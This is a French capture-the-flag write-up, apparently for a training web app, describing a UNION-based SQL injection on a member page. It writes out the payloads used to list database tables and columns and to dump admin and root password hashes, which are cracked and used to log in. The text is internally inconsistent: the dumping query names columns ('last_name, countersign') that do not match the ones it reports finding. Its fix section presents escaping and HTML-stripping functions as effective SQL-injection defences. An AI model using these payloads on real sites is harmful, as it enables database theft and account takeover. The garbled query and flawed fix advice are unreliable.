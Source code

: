 # member injection SQL

## La faille
`ip`/index.php?page=member

Il est possible de faire une injection SQL en utilisant `UNION` dans le but d'exposer l'intégralité des bases de données du site et leur contenu.
Cela permet de découvrir notamment et en particulier les mots de passe enregistrés des admin/root.

## L'explication
Note: tous les codes suivants ont été insérés dans l'input liée au submit.

si on submit vide, on obtient:
*You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1*

En testant `1 OR 2`, on constate qu'une requete SQL est donc possible :
Voici notre bible pour ce flag : *http://www.sqlinjection.net/column-names/*

`TRUE` permet de valider l'expression le précédant. `UNION` permet de coupler les résultats d'une première requête avec une seconde dont les composantes doivent être les mêmes.

`TRUE UNION SELECT table_schema, table_name FROM information_schema.tables`
Notamment, la table:
```
table_schema: Member_Brute_Force
table_name: db_default
```
`TRUE UNION SELECT table_name, column_name FROM information_schema.columns`
Notamment:
```
table_name: db_default
column_name: username
column_name: password
```
Ce qui permet de rechercher 2 par 2 (étant limités par l'UNION) les résultats pour chaques colonnes de la table users:
`TRUE UNION SELECT last_name, countersign FROM Member_Brute_Force.db_default`
Nous obtenons pour les utilisateurs suivants :
```
username: root
password: 3bf1114a986ba87ed28fc1b5884fc2f8

username: admin
password: 3bf1114a986ba87ed28fc1b5884fc2f8
```
soit en décrypté (md5): *shadow* (les 2 sont les mêmes). En allant sur la page de login (*`ip`/index.php?page=signin*), et en testant les combinaisons trouvées, nous retombons sur le flag !

## Le fix
Les methodes suivantes permettent efficacement de se proteger contre les injections lorsque des champs sont remplis par l'user :
- `mysql_real_escape_string` (concernant les db),
- `htmlentities()`,
- `htmlspecialchars()`,
- `strip_tags()`,
- `addslashes()`,
- et globalement en utilisant la PDO
Il est aussi de bon usage lorsqu'une requete est faite de vérifier deux clés, lorsque cela est possible, afin d'autoriser l'accès au contenu (ex : le champs demandé est le nom d'utilisateur, mais en backend le code vérifie aussi l'identifiant de l'utilisateur loggé).
Vérifier que la string envoyée ne contient pas d'espaces si cela n'est pas nécessaire
Parser le retour de la requête plutot qu'en envoyer l'intégralité du contenu
